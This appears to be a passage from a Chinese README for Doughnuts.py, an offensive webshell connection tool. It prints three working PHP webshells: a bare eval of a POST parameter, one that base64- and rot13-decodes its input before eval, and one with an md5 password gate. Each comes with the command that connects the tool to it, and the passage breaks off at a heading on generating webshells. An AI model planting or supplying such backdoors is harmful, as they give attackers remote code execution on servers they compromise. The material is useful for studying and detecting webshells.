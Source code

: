 ## 使用例子

*由于windows原因，在windows命令行连接下不支持&符号连接参数。
尽量将额外参数包裹引号进行传递，且逐一拆分。
好的习惯:"data:a=123" "data:b=456"
坏的习惯:"data:a=123&b=456" (在windows命令行下会连接失败)*

1. 普通webshell:

    - 最平凡的webshell:

        ```php
        //test1.php
        <?php
        error_reporting(0);
        eval($_POST['2333']);
        ?>
      ```
      那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:
      ```
      connect http://localhost/test1.php POST 2333
      ```
      
    - 带解码的webshell:

        ```php
        //test2.php
        <?php
        error_reporting(0);
        eval(str_rot13(base64_decode($_REQUEST['2333'])));
        ?>
      ```
    那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:
      
      ```
      connect http://localhost/test2.php POST 2333 rot13 base64
      ```
      
    - 需要额外参数与解码的webshell:

        ```php
        //test3.php
        <?php
        if(@md5($_POST['a']) == "202cb962ac59075b964b07152d234b70"){  // a=123
        	@eval(base64_decode($_POST['2333']));
        }
        ```

        那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:

        ```
        connect http://localhost/test.php POST 2333 base64 "data:a=123"
        ```

2. 生成webshell:
